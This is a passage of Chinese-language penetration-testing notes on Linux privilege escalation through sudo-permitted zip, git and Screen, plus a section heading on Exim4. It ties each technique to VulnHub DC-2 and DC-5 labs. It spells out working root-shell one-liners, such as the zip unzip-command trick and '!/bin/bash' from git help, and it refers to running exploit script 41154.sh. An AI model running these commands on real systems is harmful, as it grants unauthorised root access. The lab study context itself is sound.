 **方法一**
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
![](_img\14-归类总结/1671608451279-907f74da-ce2e-4bae-a154-4248ee7abc7e.jpeg)

**方法二**<br />先创建一个 liuwx 文件，然后在将它压缩为zip文件，最后使用unzip-command来执行bash命令从而提权：
```
touch liuwx
sudo zip /tmp/liuwx.zip /home/sarang/liuwx -T --unzip-command="sh -c /bin/bash"
```
tmp为可写目录，所以压缩包放在tmp下；<br />![](_img\14-归类总结/1671608451284-0664889c-6785-49fe-9766-4dc2fd3a15df.jpeg)


## 10.5、GIT提权
git命令被分配了root权限<br />![](_img\14-归类总结/1671608748911-8d80aa6b-f4bb-433d-8e87-8620141432b8.jpeg)

**方法一**<br />利用git来提权
```
sudo git help add
!/bin/bash
```
![](_img\14-归类总结/1671608748703-d5002bd4-3fd2-48ce-87d8-d45f07508e56.jpeg)
![](_img\14-归类总结/1671608748680-1bd24304-8c1c-4ae1-af35-ef59602df09b.jpeg)
粘贴代码到此处，然后回车完成提权

**方法二**<br />输入命令`sudo git help config`之后直接在出现的help界面，输入 `!/bin/bash`，成功提权<br />![image-20220110150747962.png](_img\14-归类总结/1652256147381-4ba75de9-1344-46fe-b760-478e97c06b42.png)
![image-20220110150813588.png](_img\14-归类总结/1652256150056-bb1cf5cd-3f00-4a24-b073-75e2c86e5050.png)

实例参考链接：[DC-2](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-2)


## 10.6、Screen提权
Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。<br />在Screen环境下，所有的会话都独立的运行，并拥有各自的编号、输入、输出和窗口缓存。用户可以通过快捷键在不同的窗口下切换，并可以自由的重定向各个窗口的输入和输出。<br />![](_img\14-归类总结/1671608748751-fc29a490-9b3e-467c-b88b-9e02de6f67f8.jpeg)

将脚本文件转换为linux格式
```
dos2unix 41154.sh
```

传到靶机下，更改权限后运行<br />![](_img\14-归类总结/1652256568936-b35f4e40-17b9-47ff-a693-49efe2bdcadb.png)

实例参考链接：[DC-5](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-5)


## 10.7、Exim4提权
Exim4是在剑桥大学开发的另一种消息传输代理（MTA），用于在连接到Internet的Unix系统上使用。 尽管exim的配置与sendmail的配置完全不同，但是可以安装Exim代替sendmail。<br />![](_img\14-归类总结/1671608749963-692d060c-4d19-4e11-af9c-b8c712f9600a.jpeg)

